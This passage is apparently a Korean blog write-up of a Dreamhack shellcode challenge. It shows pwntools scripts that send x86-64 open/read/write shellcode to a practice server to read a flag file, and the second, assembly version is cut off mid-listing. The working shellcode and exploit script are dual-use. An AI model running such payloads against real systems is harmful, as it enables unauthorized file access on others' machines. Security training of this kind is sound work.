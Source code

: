 해당 결과를 파이프를 이용해 텍스트 파일에 저장하고, 쉘코드 형태로 가공한 후 원격 서버에 입력해 보았다.

그 결과,

![아외또않되](/assets/img/posts/syshack42/Untitled%204.jpeg){: width="100%" height="100%"}

아외또않되

안된다… C 언어로 짠 스켈레톤 코드에 올려서 gdb를 붙여서 확인해 봤는데, 분명히 제대로 되고 있었다. 심지어 flag 파일의 경로에 해당 파일을 만들어서 컴파일된 프로그램을 돌려 보았더니 제대로 파일의 값이 읽혀 나왔던 것까지 확인했는데 말이다.

![로컬 환경에서는 제대로 되는 모습을 확인.](/assets/img/posts/syshack42/Untitled%205.jpeg){: width="100%" height="100%"}

로컬 환경에서는 제대로 되는 모습을 확인.

## #2. Pwntools
그러다가 갑자기 생각났다. 설마, 프로그램 상에서 바이너리로 패킹해서 보내줘야 하는 걸까? 왠지 그럴 것 같았다. 네트워크를 통해 데이터가 전송될 경우 엔디안을 고려하지 않으면 원했던 것과는 정반대의 바이트가 갈 수 있다는 것을 BoB 수업 시간 때 배웠던 기억이 있었기 때문이었다.

그래서 python을 이용해 내가 원하는 데이터를 원격으로 보내고, 그 결과를 받는 프로그램을 짰다.

```python
from pwn import *
payload=b"\x41\xb8\x00\x00\x00\x00\x41\x50\x49\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x41\x50\x49\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x41\x50\x49\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x41\x50\x49\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x41\x50\x49\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x41\x50\x48\x89\xe7\x48\x31\xf6\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x8d\x74\x24\xc0\xba\x40\x00\x00\x00\xb8\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\x48\x8d\x74\x24\xc0\xba\x30\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05\x48\x31\xff\xb8\x3c\x00\x00\x00\x0f\x05"

p=remote("host3.dreamhack.games", 8603)
p.sendline(payload)
p.interactive()
```

그 결과, 성공했다! 경로가 지정하는 파일을 읽어 와 플래그를 확인할 수 있었다. 여기에 플래그는 올리지 않을 것이다. 드림핵에서 동일 문제를 푸는 사람들에게 스포일러가 될 수도 있기에…

또 다른 방식으로 코드를 짤 수 있을까 싶어 두 번째 방법도 제안해 본다. 이 또한 플래그를 가져올 수 있는 코드였다.

```python
from pwn import *

context.arch = 'amd64'

payload= '''
_start: 
mov r8, 0x00
push r8
mov r8, 0x676e6f6f6f6f6f6f
push r8
mov r8, 0x6c5f73695f656d61
push r8
mov r8, 0x6e5f67616c662f63
push r8
mov r8, 0x697361625f6c6c65 
push r8
```